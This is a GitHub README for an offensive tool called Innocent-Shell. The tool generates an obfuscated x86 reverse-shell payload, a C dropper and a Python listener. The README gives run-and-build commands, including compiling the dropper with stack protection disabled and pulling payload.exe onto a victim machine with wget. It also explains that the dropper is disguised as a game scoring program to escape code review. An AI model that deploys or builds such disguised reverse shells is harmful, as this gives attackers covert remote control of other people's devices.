







# *Innocent-Shell*
*Innocent Shell is basically a fully integrated Obfuscated Payload Generator with a Dropper to Create a Reverse Shell on targets Device developed by Team*
*PORT KNOCKERS :*
* *<a href = "https://github.com/huzaifi0604">Muhammad Huzaifa*<br></br>
* *<a href = "https://github.com/dingavinga1">Abdullah Irfan</a>*<br></br>
* *<a href = "https://github.com/aishairfan">Aisha Irfan</a>*<br></br>
<br></br>
*The Project makes use of Python, C and x86 Assembly Languages WHERE*<br></br>
*➡️Reverse Shell Payload has been Developed using pure x86 assembly which is then parsed to develop the dropper for client/ target*<br></br>
*➡️Client side stager to Connect to the Server is developed using C Language.*<br></br>
*➡️And Lastly the Server for the Reverse Shell to Connect to and Execute Commands and Getting Reply has been done using Python3.*

## *How To Run The Project*
*To run the project 1st of all just clone this repository.*
* Clone Repository:
```
git clone https://github.com/huzaifi0604/Innocent-Shell
```
*After extracting the zip file you can use the following command to get the help menu for the Server.*
```
python innoshell.py -h
```
This command can be used to check the flags and respective arguments for running server and listening for the target. You can use
* *-lip --> Set Server's IP Address | -sip --> Set Client's IP Address*<br></br>
  * *In this case since we are using same machine you can use your local host 127.0.0.1.*
* *-lport --> Set Server's Port | -sport --> Set Client's Port*<br></br>
  * *Set Server's port lip to 9999 and clients port sip to 8080*<br></br>
* *-nc flag --> to open a saperate netcat listener using teh same server. Use 1 to set listener to open.*
## Run Innocent Shell Server
*Now open terminal and run the Innocent shell's server using the command below.*
```
python innocentshell.py -lip 127.0.0.1 -lport 9999 -sip 127.0.0.1 -sport 8080 -nc 1
```
*Server should start listening for connection after successfully running this command.*
<br></br>
*Now traverse into the shell folder and use the following comand to build the dropper file.*
```
gcc -fno-stack-protector -z execstack dropper.c -o dropper
```
*Then use ``` ./dropper ``` to run the compiled C dropper for client.*<br></br>
*Now the server looking for the connection should have connected to the client and have output of something like this*
<br></br>
*Now you can use any command on Victim's Reverse Shell. I used wget command to downloaad a payload from my selfmade python http server using command*<br></br>
```
wget http://my localhost IP:8080/payload.exe
```
<br></br>
*You can see that i have successfully downloaded my desired file into the victims system.*<br></br>
<br></br>
## Assembly Payload
*Reverse Shell Payload to get executed on victim's device was written using x86 assembly language and then parsed into C*
<br></br>
## Payload Obfuscation
*As for the last but not the least part: Payload Obfuscation, the reverse shell payload was obfuscated using byte shifting and Defi Hellman Key Exchange
Mechanism to encrypt and decrypt the obfuscated payload with.*
<br></br>
*Similarly, The dropper on Clinet's Side has been developed in such a way that it depicts the program written for a game and scoring system
and user analyzing teh code cannot interpret anything malicious within the code easily.*
<br></br>
## Use At your Own Risk
*It is clearly being stated that all the files in the repository are allowed/ available for use but only for learning purposes. We won't be responsible for
 any type of malicious activity done using this repository's data.*
